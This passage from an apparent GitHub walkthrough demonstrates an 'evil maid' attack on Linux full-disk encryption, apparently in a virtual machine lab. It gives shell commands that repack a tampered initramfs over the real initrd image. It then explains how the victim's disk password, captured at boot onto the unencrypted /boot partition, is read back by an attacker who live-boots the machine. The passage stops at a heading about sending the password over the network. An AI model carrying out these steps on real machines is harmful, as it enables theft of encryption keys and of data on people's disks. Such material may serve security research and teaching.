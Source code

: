 ### 5. Repack modified initrd

`cd` to `/tmp/init` and store the below commands as script (e.g. `finalize.sh`) and execute it or just execute the commands one by one. Remember to modify `kernel` variable in here as well if you are launching this as a script or in a new terminal window.

```sh
DIR=/tmp/init/
kernel=5.15.0-47-generic
cd $DIR
# start with an empty file
rm -rf ${DIR}/myinitrd
touch ${DIR}/myinitrd

# Add the first microcode firmware
cd ${DIR}/initramfs/early
find . -print0 | cpio --null --create --format=newc > ${DIR}/myinitrd

# Add the second microcode firmware
cd ${DIR}/initramfs/early2
find kernel -print0 | cpio --null --create --format=newc >> ${DIR}/myinitrd

# Add the actual ram fs file system
cd ${DIR}/initramfs/main
find . | cpio --create --format=newc | xz --format=lzma >> ${DIR}/myinitrd
cat ${DIR}/myinitrd > /mnt/boot/initrd.img-"$kernel"
```

After these commands the original initrd file has been overwritten and you can power-off the machine.

### 6. Login to the machine acting like the real user

This is the part where the real user would boot the machine without knowing that an attacker has modified the initramfs content. Password for the disk encryption is stored to the boot partition when user enters the password. After booting pass the disk encryption phase you can power-off the machine. This just mimics a situation where user has done what they needed to do on the machine and the attacker now has a new chance to access the machine.

### 7. Liveboot back to the machine as an attacker and steal the encryption key

First, mount the boot partition from the disk.

```sh
mkdir /mnt/boot
# /dev/vda3 -> unecnrypted /boot partition
mount /dev/vda3 /mnt/boot/
```

Now you should be able to read the stolen encryption key from `cat /mnt/boot/.cryptpass_mitm`.

## Sending the password over the network
